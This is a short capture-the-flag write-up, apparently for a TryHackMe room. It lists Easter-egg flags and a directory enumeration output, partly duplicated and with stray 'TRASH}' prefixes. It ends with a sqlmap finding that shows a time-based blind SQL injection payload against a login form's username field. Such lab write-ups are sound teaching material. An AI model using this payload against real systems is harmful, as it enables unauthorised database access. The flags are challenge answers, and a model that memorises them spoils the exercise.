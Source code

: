 # writeups

deskel


`+ /: Uncommon header 'busted' found, with contents: Hey, you found me, take this Easter 6: THM{l37'5_p4r7y_h4rd}.`
`Easter 1: THM{4u70b07_r0ll_0u7}`

by decoding the base64, multiple time( I mean the base64 that was in the robots.txt), I found
*DesKel_secret_base*, let's see what's that, and I found a new one

`Easter 2: THM{f4ll3n_b453}`


--dirListing
```
TRASH}/button               (Status: 200) [Size: 39148]
TRASH}/cat                  (Status: 200) [Size: 62048]
/cgi-bin/             (Status: 403) [Size: 286]
TRASH}/dinner               (Status: 200) [Size: 1264533]
TRASH}/egg                  (Status: 200) [Size: 25557]
/index                (Status: 200) [Size: 94328]
TRASH}/iphone               (Status: 200) [Size: 19867]
/login                (Status: 301) [Size: 308] [--> http://10.10.8.17/login/]
TRASH}/nicole               (Status: 200) [Size: 367650]
TRASH}/ready                (Status: 301) [Size: 308] [--> http://10.10.8.17/ready/]
/robots               (Status: 200) [Size: 430]
/robots.txt           (Status: 200) [Size: 430]
/server-status        (Status: 403) [Size: 291]
/small                (Status: 200) [Size: 689]
/static               (Status: 200) [Size: 253890]
/ty                   (Status: 200) [Size: 198518]
/index                (Status: 200) [Size: 94328]
/login                (Status: 301) [Size: 308] [--> http://10.10.8.17/login/]
/button               (Status: 200) [Size: 39148]
/static               (Status: 200) [Size: 253890]
/cat                  (Status: 200) [Size: 62048]
/small                (Status: 200) [Size: 689]
/who                  (Status: 200) [Size: 3847428]
/robots               (Status: 200) [Size: 430]
/iphone               (Status: 200) [Size: 19867]
/game1                (Status: 301) [Size: 308] [--> http://10.10.8.17/game1/]
/egg                  (Status: 200) [Size: 25557]
/dinner               (Status: 200) [Size: 1264533]
/ty                   (Status: 200) [Size: 198518]
/ready                (Status: 301) [Size: 308] [--> http://10.10.8.17/ready/]
/saw                  (Status: 200) [Size: 156274]
```

I found a flag in, /login source code `EASTER 3, THM{y0u_c4n'7_533_m3}`, 
after that, in the /login I tried a sqli, and found `POST parameter 'username' is vulnerable. ` and after
a while I got

```
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=test' AND (SELECT 5552 FROM (SELECT(SLEEP(5)))ExFc) AND 'qJEY'='qJEY&password=test&submit=submit
---
```









